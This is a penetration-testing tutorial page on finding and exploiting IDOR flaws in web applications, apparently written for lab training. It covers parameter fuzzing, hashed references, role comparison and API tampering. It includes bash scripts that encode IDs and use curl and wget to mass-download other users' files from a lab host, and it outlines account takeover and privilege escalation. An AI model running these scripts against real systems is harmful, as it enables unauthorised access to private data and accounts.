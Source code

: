 # Detecting and Enumerating IDOR

### URL parameters and APIs&#x20;

Look for parameters that appear to be direct object references. for example:

```
?uid=1 or ?filename=file_1.pdf
```

These parameters can then be incremented or fuzzed. We should pay close attention to the page to look for changes when we change the parameters. For example, in applications that show documents or files for specific users, we may see different files if we change the parameter which would indicate we had found and IDOR vulnerability.&#x20;

### AJAX Calls

Look for unused parameters or API's in the front end code in the form of JavaScript AJAX calls. these may have been accidentally placed or left here and by modifying the HTTP request, we can possibly find an IDOR vulnerability.&#x20;

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Hashing/Encoding

For parameter input, the application may not always use a plain text value and instead could encode or hash the reference. If this is found the value could possibly be deoded, changed, and then re encoded to attempt to access sensitive data.&#x20;

We can also check the front end code to detect if a reference is being hashed:

```
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

This can make it easy for us to calculate other reference values we would like to fuzz. If we cannot find the hash algorithm in an ajax call in the front end code, then we can use some hash identifier tools to attempt to learn the hash type.

Using this information, we can fuzz the parameter with the correct encoding.&#x20;

take for example this source code, which base64 encodes the value, then md5 hashes:

```
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We could then craft a bash script, (or you could use burp intruder or zap) to properly modify the payload before sending it:

```
#!/bin/bash

for i in {1..20}; do
	value=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
	curl -sOJ -X POST -d "contract=$value" http://94.237.123.87:59911/download.php
done
```

some points about this script:

-n on the echo removes newline, which will get encoded and change the value if included&#x20;

tr -d ' -' removes the trailing ' -' from the output of the md5sum.

Make sure to review the source code and find out how the encoded value is being generated &#x20;

### User Roles

By registering multiple users and comparing their HTTP requests and object references, this may allow us to better understand how the URL parameters and object references are formatted, so we can use this to our advantage when looking for IDOR.

```
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

We can try to make the same API call when logged in as user2, and if the call is successful we know there is an IDOR vulnerability.&#x20;

### Mass Enumeration

We can fuzz with tools like Burp Suite, ZAP, or ffuf.&#x20;

#### Bash Script to download all files

Use the element inspector in the browser to identify the elements for the files and find a string to grep on:

```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Then we can craft a regex just to get the file names we want:&#x20;

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

and finally use a for loop in bash to loop through user ID's and download all files with wget.&#x20;

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Insecure API's and Function Calls&#x20;

This can be determined by examining requests going out to the server that are updated on the back end. We look for REST calls to API endpoints. these typically use PUT, POST, GET, and DELETE to interact with the API endpoint, and many times use json for the request body. i.e:

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We should look for interesting parameters which may have the possibility of an IDOR vulnerability, such as uid, uuid, or role in this instance. We should also look to see if any of these values are being set on our cookie and used for access control, as those can be valuable targets. That typically means the access control is being set client side, which we can modify. We can aim to attempt the following:

1. Change our `uid` to another user's `uid`, such that we can take over their accounts
2. Change another user's details, which may allow us to perform several web attacks
3. Create new users with arbitrary details, or delete existing users
4. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions

### Chaining IDOR vulnerabilities

Its important to keep in mind that one IDOR vulnerability may lead to another. sensitive information leaked in an information disclosure IDOR might be able to be utilized to exploit insecure API's or function calls. You may be able to use this to modify user details, change a users email address to one you control and request a password reset link, place an XSS in a user detail field, etc.&#x20;
